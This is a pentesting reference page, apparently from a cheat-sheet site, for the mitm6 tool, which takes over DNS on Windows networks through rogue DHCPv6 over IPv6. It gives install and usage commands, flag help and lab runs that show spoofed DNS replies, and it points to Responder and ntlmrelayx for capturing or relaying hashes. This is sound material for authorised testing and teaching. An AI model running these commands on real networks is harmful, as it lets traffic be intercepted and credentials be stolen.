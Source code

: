 ```yaml
---
title : "Mitm6"
# pre : ' '
description : "mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server."
date : 2020-05-16T14:54:31+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Mitm6

"pwning IPv4 via IPv6" - mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server.

## Installation

```plain
sudo python3 -m pip install mitm6
```

## Usage

```plain
mitm6 [-h] [-i INTERFACE] [-l LOCALDOMAIN] [-4 ADDRESS] [-6 ADDRESS] [-m ADDRESS] [-a] [-v] [--debug] [-d DOMAIN] [-b DOMAIN] [-hw DOMAIN] [-hb DOMAIN] [--ignore-nofqdn]
```

## Flags

```plain
mitm6 - pwning IPv4 via IPv6
For help or reporting issues, visit https://github.com/fox-it/mitm6

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use (default: autodetect)
  -l LOCALDOMAIN, --localdomain LOCALDOMAIN
                        Domain name to use as DNS search domain (default: use first DNS domain)
  -4 ADDRESS, --ipv4 ADDRESS
                        IPv4 address to send packets from (default: autodetect)
  -6 ADDRESS, --ipv6 ADDRESS
                        IPv6 link-local address to send packets from (default: autodetect)
  -m ADDRESS, --mac ADDRESS
                        Custom mac address - probably breaks stuff (default: mac of selected interface)
  -a, --no-ra           Do not advertise ourselves (useful for networks which detect rogue Router Advertisements)
  -v, --verbose         Show verbose information
  --debug               Show debug information

Filtering options:
  -d DOMAIN, --domain DOMAIN
                        Domain name to filter DNS queries on (Whitelist principle, multiple can be specified.)
  -b DOMAIN, --blacklist DOMAIN
                        Domain name to filter DNS queries on (Blacklist principle, multiple can be specified.)
  -hw DOMAIN, --host-whitelist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Whitelist principle, multiple can be specified.)
  -hb DOMAIN, --host-blacklist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Blacklist principle, multiple can be specified.)
  --ignore-nofqdn       Ignore DHCPv6 queries that do not contain the Fully Qualified Domain Name (FQDN) option.
```

## Examples

#### ATTENTION

To run mitm6 without interrupting the use of internet from the clients, you need to forward packets do this by running the following besides mitm6.

```plain
watch -n1 sudo sysctl -w net.ipv4.ip_forward=1
```

#### Use tool to route whole network

Tip: use [Responder]({{< ref "responder" >}}) to capture hashes or [NTLMrelayx.py]({{< ref "ntlmrelayx-py" >}}) to relay hashes.

```plain
$ sudo mitm6

Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:00:00:00:b3]
IPv4 address: 10.10.10.45
IPv6 address: fe80::a00:27ff:fede:92b3
Warning: Not filtering on any domain, mitm6 will reply to all DNS queries.
Unless this is what you want, specify at least one domain with -d
IPv6 address fe80::4865:1 is now assigned to mac=00:00:00:00:00:29 host=WS10.offsec.nl. ipv4=
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
IPv6 address fe80::4865:3 is now assigned to mac=00:00:00:00:00:27 host=DC2019.offsec.nl. ipv4=
IPv6 address fe80::4865:4 is now assigned to mac=00:00:00:00:00:2b host=kali ipv4=
IPv6 address fe80::4865:5 is now assigned to mac=00:00:00:00:00:31 host=adguard-lab ipv4=
Sent spoofed reply for client.wns.windows.com. to fe80::4865:1
Sent spoofed reply for v10.events.data.microsoft.com. to fe80::4865:1
```

#### Specific target

```plain
sudo mitm6 -i eth0 -hw DC2016.offsec.nl
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
```

## URL List

* [GitHub.com - mitm6](https://github.com/fox-it/mitm6)
